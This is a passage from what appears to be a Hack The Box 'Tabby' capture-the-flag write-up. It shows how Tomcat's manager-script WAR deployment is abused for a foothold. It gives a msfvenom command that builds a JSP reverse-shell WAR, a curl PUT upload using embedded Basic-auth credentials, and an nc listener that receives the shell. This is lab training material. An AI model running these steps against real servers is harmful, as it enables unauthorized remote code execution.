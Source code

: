 
## Low Shell

There is a very interesting feature available using `manager-script`.

>Deploy A New Application Archive (WAR) Remotely

 >   http://localhost:8080/manager/text/deploy?path=/foo

>    Upload the web application archive (WAR) file that is specified as the request data in this HTTP PUT request, install it into the appBase directory of our corresponding virtual host, and start, deriving the name for the WAR file added to the appBase from the specified path. The application can later be undeployed (and the corresponding WAR file removed) by use of the /undeploy command.

>    This command is executed by an HTTP PUT request.

>    The .WAR file may include Tomcat specific deployment configuration, by including a Context configuration XML file in /META-INF/context.xml.

We can deploy a new application using a `PUT` request containing the `WAR` file that contains the web application. And some bad things can happen when an attacker has control of the contents of `WAR` file.


1. Create a `WAR` file using `msfvenom`
    ```bash
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=1337 -f war > $htb/tabby/shell.
    war

    Payload size: 1093 bytes
    Final size of war file: 1093 bytes
    ```

2. Upload the file via `curl` PUT request with the credentials in the header and the `WAR` file as the payload.  
    ```bash
    kali@kali:~/Desktop/htb/tabby$ curl -T shell.war -X PUT tabby.com:8080/manager/text/deploy?path=/shell -H "Authorization: Basic dG9tY2F0OiQzY3VyZVA0czV3MHJkMTIzIQ=="
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
      0  1092    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0OK - Deployed application at context path [/shell]
    100  1143    0    51  100  1092     34    739  0:00:01  0:00:01 --:--:--   773
    ```

3. Start a `nc` listener and browse the newly deployed application for our reverse shell.
```bash
kali@kali:~/Desktop/htb/tabby$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.14.29] from tabby.com [10.10.10.194] 45882
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ id
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

## User Shell

